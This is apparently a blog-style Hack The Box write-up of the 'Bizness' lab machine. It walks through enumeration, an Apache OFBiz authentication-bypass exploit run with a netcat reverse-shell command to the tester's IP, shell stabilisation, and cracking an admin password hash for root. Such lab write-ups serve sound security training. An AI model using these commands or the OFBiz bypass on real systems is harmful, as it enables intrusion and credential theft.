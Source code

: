 ```yaml
---
title: 'HTB Bizness Writeup'
date: 2024-05-08
permalink: /posts/2024/05/HTB-Bizness-Writeup/
tags:
  - HTB
  - writeup
  - easy
---
```


A writeup of the Hack The Box machine "Bizness" with easy difficulty

<img src='/images/HTB_Bizness/Screenshot 2024-05-29 204113.png'> 

**Welcome to this writeup of the Bizness HackTheBox machine to help you pwn and follow my thoughts.**

Enumeration
======
First, I check the open ports with `Nmap –sV –sC 10.10.11.252`

<img src='/images/HTB_Bizness/Screenshot 2024-05-29 222656.png'> 

Port 22, 80 and 443 are open. Port 80 is a running a webserver named bizness.htb

I have to add this url to the 10.10.11.252 IP in the /etc/hosts file > 10.10.11.252 bizness.htb 
Or with 1 command> `echo "10.10.11.252   bizness.htb" | sudo tee -a /etc/hosts`

Now we can access the webpage after we accepted the self-signed certificate risk warning.

There seems to be no clue on the webpage itself apart from that the site is powered by Apache OFBiz. We we dive deeper into this later. 

<img src='/images/HTB_Bizness/Screenshot 2024-05-29 222924.png'>

There are also input fields. Send a message to contact or subscribe to their newsletter. 

First I am going to see if what url directories there are >  

<img src='/images/HTB_Bizness/Screenshot 2024-05-29 223114.png'>

There seems to be no other directories found by gobuster. 

I tried dirsearch next > `dirsearch -u https://bizness.htb`

<img src='/images/HTB_Bizness/Screenshot 2024-05-29 223240.png'>

The /control/login directory appears here. It’s the Apache OFBiz login page! 

User flag
======
After searching the internet, I found this exploit: https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass  

Clone the repository and go to the newly downloaded folder > 

Run the command > `python3 exploit.py --url https://bizness.htb --cmd 'nc -c bash 10.10.14.89 1234'`

<img src='/images/HTB_Bizness/Screenshot 2024-05-29 223438.png'>

But before you run the command. Setup a Netcat listener on port 1234 > Now I was able to get RCE >

<img src='/images/HTB_Bizness/Screenshot 2024-05-29 223546.png'>

We can obtain the user flag now >

<img src='/images/HTB_Bizness/Screenshot 2024-05-29 223738.png'>

Root flag
======
First, stabilize the shell with the following commands > 

<pre>
python3 -c 'import pty;pty.spawn("/bin/bash")'
Press Ctrl+z 
stty raw -echo; fg
export TERM=xterm
</pre>

Somewhere in the file system is a hash to be found but where..... 

In the /opt/ofbiz/framework/resources/templates directory is a file called AdminUserLoginData.xml where a hash can be found > 

<img src='/images/HTB_Bizness/Screenshot 2024-05-29 224934.png'>

In another file is a salted hash to be found > 

<img src='/images/HTB_Bizness/Screenshot 2024-05-29 225044.png'>

I tried to crack the hash with john but not successful. 

Then I found a tool called: Apache-OFBiz-SHA1-Cracker. > https://github.com/duck-sec/Apache-OFBiz-SHA1-Cracker?source=post_page-----b5bed59a7598--------------------------------  

<img src='/images/HTB_Bizness/Screenshot 2024-05-29 225256.png'>

With the password cracked we can login to the root user to obtain the root.txt flag.

<img src='/images/HTB_Bizness/Screenshot 2024-05-29 225426.png'>

Conclusion
======
Finding the hash in a file is definitely the hardest part, as there are so many files on the system. 

Thank you for reading! I hope you found it useful :) 

Happy Hacking! 